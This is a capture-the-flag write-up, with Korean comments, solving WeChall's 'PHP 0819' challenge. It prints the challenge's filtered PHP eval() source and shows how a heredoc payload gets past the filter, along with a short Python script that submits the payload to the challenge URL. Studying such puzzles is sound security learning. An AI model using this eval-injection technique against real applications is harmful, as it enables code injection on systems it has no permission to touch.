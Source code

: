 ================================================================================================================
[wechall] PHP 0819
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?eval=<<<a%0a1337%0aa;%0a",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================


.. code-block:: php

    <?php
    // closure, because of namespace!
    $challenge = function()
    {
        $f = Common::getGetString('eval');
        $f = str_replace(array('`', '$', '*', '#', ':', '\\', '"', "'", '(', ')', '.', '>'), '', $f);

        if((strlen($f) > 13) || (false !== stripos($f, 'return')))
        {
            die('sorry, not allowed!');
        }

        try
        {
            eval("\$spaceone = $f");
        }
        catch (Exception $e)
        {
            return false;
        }

        return ($spaceone === '1337');
    };
    ?>


|


solve
================================================================================================================

- spaceone이 1337 문자열일 경우 풀리는 문제인데, eval=1337로 입력할 경우 int값으로 입력되어 에러가 출력됩니다.
- heredoc 구문을 이용하여 해결할 수 있습니다. "<<<"

http://zetawiki.com/wiki/PHP_%ED%9E%88%EC%96%B4%EB%8B%A5_heredoc


.. code-block:: php

    <<<a
    1337
    a;


.. code-blcok:: python


    import requests


    url = "http://www.wechall.net/challenge/space/php0819/index.php"
    
    params = {
        "eval": "%3C%3C%3Ca%0a1337%0aa;%0a"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content
